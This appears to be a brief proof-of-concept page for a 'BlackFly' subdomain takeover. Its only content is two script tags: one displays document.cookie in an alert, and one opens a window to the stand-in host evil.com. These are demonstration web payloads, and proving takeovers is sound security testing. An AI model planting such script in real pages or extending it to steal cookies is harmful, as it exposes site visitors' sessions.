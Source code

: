 <h1>BlackFly</h1>

Subdomain Takeover



<script>alert(document.cookie)</script>


<script>window.open("https://evil.com")</script>
